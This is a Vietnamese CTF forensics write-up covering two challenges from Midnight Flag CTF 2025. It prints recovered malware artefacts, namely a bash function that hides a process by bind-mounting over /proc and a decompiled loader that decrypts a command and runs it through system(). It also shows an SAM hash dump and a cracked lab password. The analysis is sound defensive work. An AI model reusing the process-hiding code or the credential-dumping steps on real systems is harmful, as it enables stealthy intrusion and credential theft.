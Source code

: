 # _Midnight Flag CTF 2025_

## _APT 1337_

- Liệt kê tiến trình:
> linux.psaux.PsAux
> 
> linux.pslist.PsList

- Check file trong RAM (khá tương tự filescan của windows)
> linux.linux.pagecache.InodePages

Dùng strings grep ra được lấy được 1 số thông tin hữu ích sau:
```
hide() {
    [[ -L /etc/mtab ]] && { cp /etc/mtab /etc/mtab.bak; mv /etc/mtab.bak /etc/mtab; }
    _pid=${1:-$$}
    [[ $_pid =~ ^[0-9]+$ ]] && { mount -n --bind /dev/shm /proc/$_pid && echo "[THC] PID $_pid is now hidden"; return; }
    local _argstr
    for _x in "${@:2}"; do _argstr+=" '${_x//\'/\'\"\'\"\'}'"; done
    [[ $(bash -c "ps -o stat= -p \$\$") =~ \+ ]] || exec bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
    bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
}

hide /usr/sbin/daemon &


950     949     sudo    AES_KEY 7557a272bacc4186952a567db00ae817704d059ecfdc8e630c04d8aabecd1e04
950     949     sudo    AES_IV  068131ad1d5c0c1516fce836d510ccce
```

Thấy được dòng cuối thực hiện `hide /usr/sbin/daemon`, khả nghi nên dùng `linux.linux.pagecache.InodePages` để tìm file trong ram

`python3 /home/kali/volatility3/vol.py -f challenge.lime linux.pagecache.InodePages --find /usr/sbin/daemon --dump`

Dùng ida để reverse

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD *v4; // rax
  __int64 v5; // rbx
  __int64 v6; // rbx
  __int64 v7; // rbx
  __int64 v8; // rbx
  __int64 v9; // rbx
  __int64 v10; // rbx
  __int64 v11; // rbx
  __int64 v12; // rbx
  __int64 v13; // rbx
  int fd; // [rsp+0h] [rbp-4C0h]
  int v15; // [rsp+4h] [rbp-4BCh]
  unsigned __int64 i; // [rsp+8h] [rbp-4B8h]
  char *v17; // [rsp+10h] [rbp-4B0h]
  char *v18; // [rsp+18h] [rbp-4A8h]
  time_t v19; // [rsp+20h] [rbp-4A0h]
  tm tp; // [rsp+30h] [rbp-490h] BYREF
  _BYTE v21[16]; // [rsp+70h] [rbp-450h] BYREF
  char v22[32]; // [rsp+80h] [rbp-440h] BYREF
  char command[1032]; // [rsp+A0h] [rbp-420h] BYREF
  unsigned __int64 v24; // [rsp+4A8h] [rbp-18h]

  v24 = __readfsqword(0x28u);
  fd = open("/tmp/.dat", 66, 384LL);
  if ( fd < 0 )
    return 1;
  if ( ftruncate(fd, 152LL) )
    return 1;
  zXb4W = (__int64)mmap(0LL, 0x98uLL, 3, 1, fd, 0LL);
  if ( zXb4W == -1 )
    return 1;
  v4 = (_QWORD *)zXb4W;
  v5 = qword_4028;
  *(_QWORD *)zXb4W = original_data;
  v4[1] = v5;
  v6 = qword_4038;
  v4[2] = qword_4030;
  v4[3] = v6;
  v7 = qword_4048;
  v4[4] = qword_4040;
  v4[5] = v7;
  v8 = qword_4058;
  v4[6] = qword_4050;
  v4[7] = v8;
  v9 = qword_4068;
  v4[8] = qword_4060;
  v4[9] = v9;
  v10 = qword_4078;
  v4[10] = qword_4070;
  v4[11] = v10;
  v11 = qword_4088;
  v4[12] = qword_4080;
  v4[13] = v11;
  v12 = qword_4098;
  v4[14] = qword_4090;
  v4[15] = v12;
  v13 = qword_40A8;
  v4[16] = qword_40A0;
  v4[17] = v13;
  v4[18] = qword_40B0;
  v17 = getenv("AES_KEY");
  v18 = getenv("AES_IV");
  if ( !v17 || !v18 )
    return 1;
  if ( (unsigned int)vNh3Z(v17, v22, 32LL) != 32 || (unsigned int)vNh3Z(v18, v21, 16LL) != 16 )
    return 1;
  v19 = time(0LL);
  memset(&tp, 0, 20);
  memset(&tp.tm_wday, 0, 32);
  tp.tm_year = 1100;
  tp.tm_mday = 1;
  if ( v19 < mktime(&tp) )
  {
    while ( 1 )
LABEL_20:
      sleep(1u);
  }
  for ( i = 0LL; i <= 0x97; ++i )
    *(_BYTE *)(zXb4W + i) ^= 0xAAu;
  v15 = pTq7L(zXb4W, 152LL, v22, v21, command);
  if ( v15 >= 0 )
  {
    command[v15] = 0;
    system(command);
    goto LABEL_20;
  }
  return 1;
}
```

Tạo file `tmp/.dat` chứa dữ liệu mã hóa, mình sẽ thực hiện tìm `tmp/.dat` trong ram

`python3 /home/kali/volatility3/vol.py -f challenge.lime linux.pagecache.InodePages --find /tmp/.dat --dump`

![image](images/img1.png)

Decrypt bằng cách xor với `0xAA` sau đó là AES

![image](images/img2.png)


HẾT !!

## Blackdoor

Nếu mount trực tiếp vào `virtual box` thì cần pass đăng nhập nhưng có thể dùng kali để mount và lấy được thông tin `SAM`, `SECURITY` => mật khẩu đăng nhập windows

### Mount

Nhận được 1 file `.ova` thay extension thành `.tar` rồi extract ra được 1 file `.vmdk`. Dùng file vmdk này để mount

https://github.com/fox-it/dissect

`sudo /home/kali/.local/bin/target-mount Blackdoor-disk001.vmdk ~/Downloads/blackdoor/mount`

Dùng tool này để trích xuất thông tin login

https://github.com/fortra/impacket/blob/master/examples/secretsdump.py

![image](images/img3.png)

Lấy NTLM hash của John đem crack 

Pass: `1dodgeneon`

Đăng nhập vào check trong autoruns là thấy được 1 schedule task trông khả nghi

![image](images/img4.png)

Tên file đúng phải là `mscms.dll`, đây là cách ngụy trang của malware

=> malware

Check md5

![image](images/img5.png)

Thấy chương trình được đặt lịch với tên `Calibration Loader`, check trong `Task Scheduler`

![image](images/img6.png)

Check ID

![image](images/img7.png)

Done.



